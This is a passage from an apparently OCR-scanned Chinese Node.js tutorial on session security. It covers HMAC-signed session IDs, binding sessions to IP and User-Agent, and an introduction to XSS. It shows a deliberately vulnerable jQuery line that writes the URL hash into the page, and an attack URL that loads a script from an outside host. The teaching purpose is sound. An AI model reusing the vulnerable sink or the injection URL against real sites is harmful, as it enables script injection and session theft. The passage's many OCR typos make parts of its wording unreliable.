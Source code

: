 #### 2. Session 与安全

从前文可以知道，尽管我们数据都放置在后端了，使得它能保障安全，但是无论通过 Cookie，还是查询字符串的实现，Session 的口令依然保存在客户端，这里回存在口令被盗用的情况。如果 Web 应用的用户十分多，自行设计的随机算法的一些口令之就有理论机会命中有效的口令之。一旦口令被伪造，服务器端的数据可能被间接利用。这里提到的 Session 的安全，就主要指如何让这个口令更加安全。

有一种做法是将这个口令通过私钥加密进行签名，使得伪造的成本较高。客户端尽管可以伪造口令之，但是由于不知道四幺之，签名信息很难伪造。如此，我们只要在响应时将口令和签名进行对比，如果签名非法，我们将服务器端的数据立即过期即可：

```js
// 将指通过私钥签名，由.分割原值和签名
var sign = function (val, secret) {
  return (
    val + '.' + crypto.createHmac('sha256', secret).update(val).digest('base64').replace(/\=+$/, '')
  );
};
```

在响应时，设置 session 的值到 Cookie 中或者跳转 URL 中：

```js
var val = sign(req.sessionID, secret);
res.setHeader('Set-Cookie', cookie.serialize(key, val));

// 接收请求时，检查签名：

var unsing = function (val, secret) {
  var str = val.slice(0, val.lastIndexOf('.'));
  return sign(str, secret) == val ? str : false;
};
```

这样依赖，即使攻击者知道口令中.号前的值时服务器端 Session 的 ID 值，只要不知道 secret 私钥的值，就无法伪造签名信息，以此实现对 Session 的保护。该方法被 Connect 中间件框架所使用，保护好私钥，就是在保障自己 Web 应用的安全。

当然，将口令进行签名是一个很好的解决方案，但是如果攻击者通过某种方式获取了一个真实的口令和签名，它们就能实现身份的伪装。一种发难是将客户端的某些都有信息与口令作为原值，然后签名，这样攻击者一旦不再原始客户端上进行访问，就会导致签名失败。这些都有信息包括用户的 IP 和用户代理（User Agent）。

但是原始用户与攻击者之间也存在上述信息相同的可能性，如局域网出口 IP 相同，相同的客户端信息等，不过纳入这些考虑能够提高安全性。通常而言，将口令存在 Cookie 中不容易被他人获取，但是一些别的漏洞可能导致这个口令泄漏，典型的由 XSS 楼的那个，下面简单介绍以下如何通过 XSS 拿到用户的口令，实现伪造。

- XSS 漏洞

XSS 的全程是跨站脚本攻击（Cross Site Scripting，通常简称为 XSS），通常都是由网站开发者决定哪些脚本可以执行在浏览器端，不过 XSS 漏洞会让别的脚本执行。它的主要形成原因多数是用户的输入没有被转义，而被直接执行。

下面是某个网站的前端脚本，它会将 URL hash 中的值设置到页面中，以实现某种逻辑：

```js
$('#box').html(location.hash.replace('#', ''));
```

攻击者发现这个漏洞后，构造了这样一个 URL：

```sh
http://a.com/pathname#<script src="http://b.com/c.js"></script>
```

为了不让受害者直接发现这段 URL 中的猫腻，他可能会通过 URL 压缩成一个短网址，如下：
